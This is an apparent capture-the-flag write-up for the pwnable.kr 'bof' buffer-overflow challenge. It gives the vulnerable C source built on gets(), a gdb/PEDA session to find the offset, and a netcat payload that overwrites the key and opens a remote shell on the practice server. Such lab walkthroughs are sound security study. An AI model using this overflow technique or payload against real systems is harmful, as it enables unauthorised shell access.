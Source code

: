 # **bof**
First, we got the source code with .ELF file from the website.

```shell=
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```


![](https://i.imgur.com/my4Pb5O.png)
![](https://i.imgur.com/nhWAWPJ.png)

Cuz to bufferoverflow type's question, we should install a plugin to gdb, it may help a lot.

`git clone https://github.com/longld/peda.git ~/peda`

`echo "source ~/peda/peda.py" >> ~/.gdbinit`

![](https://i.imgur.com/0qX7YbU.png)

Then, change the .ELF you downloaded from the website by `chmod 777 bof`.(if your compiler settings is not the same to this question)

Starting trace code with `gdb ./bof`.

First, set a break point by `b main` to stop auto running.


![](https://i.imgur.com/I2W9xvB.png)

Insert `r` to start running the program.

![](https://i.imgur.com/6fiiiVa.png)

Using `n` which means "next" to line by line running this code.

![](https://i.imgur.com/B5qAK9B.png)

Using `s` which means "step" to step into the funtion, if you keep insert `n` then it will bypass this function's detail.

![](https://i.imgur.com/hgSsF18.png)

In this function which call by main, is calling IO.GET on line 35.

Before you step on it, you should create your own offset to determind the location of the overwritable point.

`pattern create 100` may help.
`100` is the value for nobody guess, but we sure that it should bigger than the distance from get point to `key` of `void func(int key)`.

You can also see the compare command just two more lines later. It means `key` are stored in `ebp+0x8`.

Before you overwrite it, the value of `ebp+0x8` must be `0xdeadbeef`.

![](https://i.imgur.com/6R4blpO.png)

After you step on it, it will require you to insert your offset. Just paste to the shell.

![](https://i.imgur.com/E9cZx5P.png)

After you paste your offset into this process, you can check what's storing in `ebp+0x8` now by `telescope $ebp+0x8 1`.

Now, you see `AAGAACAA` is the key offset we overwrite on `0xdeadbeef`.

![](https://i.imgur.com/cHUzfwN.png)

Using `pattern offset AAGA` to find the offset location.

After all, type `q` to exit the gdb.

![](https://i.imgur.com/fcmy8od.png)

Using python to generate the payload and inject it to server.

`(python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"'; car -) | nc pwnable.kr 9000`

Becareful that stack is struct in DESC order, `cafebabe` should turn to be `bebafeca`.

![](https://i.imgur.com/0nGXESp.png)

Then, you'll get a shell return.

![](https://i.imgur.com/1qUJW6E.png)

You can check `id` and then `ls` it.

![](https://i.imgur.com/JUvQZ09.png)

Congratuz! `cat` the flag. Bada bing bada boom.

